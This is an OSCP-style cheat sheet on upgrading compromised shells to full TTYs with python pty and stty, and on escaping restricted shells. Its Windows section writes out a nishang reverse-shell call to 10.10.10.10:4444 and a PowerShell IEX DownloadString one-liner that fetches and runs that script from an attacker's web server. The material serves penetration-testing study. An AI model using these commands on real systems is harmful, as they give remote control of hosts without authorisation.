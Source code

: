 # OSCP Shell Upgrade and Shell Escape Cheat Sheet
Created by mr-b4rt0wsk1 on 06/30/2020

## Upgrade to full feature TTY shell (Linux/Unix)

1. Use one of the following to get into a python shell.  You can check which python and shells are available by using the `which` command
    * `python -c 'import pty; pty.spawn("/bin/bash")';`
    * `python -c 'import pty; pty.spawn("/bin/sh")';`
    * `python3 -c 'import pty; pty.spawn("/bin/bash")';`
    * `python3 -c 'import pty; pty.spawn("/bin/sh")';`
2. Background the process (the shell) using **Ctrl+Z**
3. Get terminal information
    1. `echo $TERM`: take note of the value returned
    2. `stty -a`: take note of the rows and columns
4. Echo the input characters `stty raw -echo`
5. Foreground the process (the shell).  At this point, what you are typing will not appear in the terminal.  This is normal
    1. `fg`
    2. `reset`: you may be prompted to enter the value from `echo $TERM` after executing this
6. Enter the information you have gathered
    1. `export SHELL=bash`
    2. `export TERM=*value from 3.1*`
    3. `stty rows *value from 3.2* cols *value from 3.2*`
7. You should now be able to use tab completion, clear the screen, use vi, etc.  Enjoy!

## PATH variable (Linux/Unix)
This PATH variable is useful if in a restricted environment or if you simply just don't have all of this in there yet

`export PATH='/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games'`

## Upgrade to PowerShell reverse shell (Windows) (see Optimum HTB ippsec video)

The file we want to use is located at `/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1` on Kali Linux

Insert this line at the end of the script to call the function and send a reverse shell

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444`

Use this command to call it from your python web server

`powershell.exe IEX(New-Object+System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1')`

## Resources
* Linux/Unix
    * Getting a TTY shell [blog](https://w00troot.blogspot.com/2017/11/using-vi-in-low-privilege-shell.html)
    * Linux Restricted Shell Bypass [exploit-db PDF](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
    * Restricted Linux Shell Escaping Techniques [article](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)
    * GTFOBins [repo](https://gtfobins.github.io/)
* Windows
    * nishang [repo](https://github.com/samratashok/nishang)
    * ippsec Optimum HTB [video](https://www.youtube.com/watch?v=kWTnVBIpNsE&ab_channel=IppSec)